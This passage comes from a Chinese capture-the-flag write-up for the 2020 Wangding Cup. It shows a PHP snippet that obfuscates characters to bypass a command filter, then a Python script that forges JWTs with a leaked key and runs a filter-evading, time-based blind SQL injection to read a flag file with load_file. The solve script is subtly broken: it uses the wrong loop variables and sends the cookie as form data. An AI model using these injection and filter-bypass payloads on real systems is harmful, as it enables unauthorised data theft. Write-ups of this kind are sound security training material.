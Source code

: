 ```php
        "!" => "((((1).(0)){0})&(((-1).(1)){0}))"
    ];
for($i=0;$i<strlen($cmd);$i++) {
    $fin = $fin.$tables[$cmd[$i]].'.';
}
echo substr($fin,0,strlen($fin)-1);
```

这里再借助上面的`(phpinfo)()`来进行完美的绕过。

**小trcik**:`nmap 可以直接读取文件 -il参数`

## 五  js_on

弱口令登陆

![image-20201214210908100](https://i.loli.net/2020/12/14/KOgCqtW1juFmEdo.png)

这个key，让我不得不看一下我的jwt

![](https://i.loli.net/2020/12/14/KOgCqtW1juFmEdo.png)

然后

![image-20201214211207532](https://i.loli.net/2020/12/14/Dm6xYGpkjEoCy2J.png)

这里我的第一反应其实是xss或者ssti注入

结果是一道盲注，我确实是没有想到这道题是这个骚做法。（联系一下开放的注册端口，应该是注入，应该是注入，还有过滤空格，select这些，骚呀。

```
#!/usr/bin/python python3
#-*-coding:utf-8-*-
#CTF_2020网鼎杯_玄武组_Web题_js_on


import requests,jwt,time

url='http://f3837049ec024ba1a59616045d15741a29b3253216334191.cloudgame1.ichunqiu.com/'
key = 'xRt*YMDqyCCxYxi9a@LgcGpnmM2X8i&6'

flag = ''

for i1 in range(1,50):
    for i2 in range(33,127):
        time_start = time.time()

        #生成组装jwt,放入data，发出请求
        user = '1234\'or/**/1=if(ord(substr((sele<>ct/**/load_file(\'//flag\')),'+str(a)+',1))='+str(i)+',sl<>eep(5),1)#'
        encoded_jwt = jwt.encode({'user':user,'news':'1234'},key,algorithm='HS256')
        data={ 'Cookie':'token='+str(encoded_jwt)}
        res=requests.get(url,data=data)      

        if time.time() - time_start > 5:
            flag += chr(i2)
            print(flag)
```
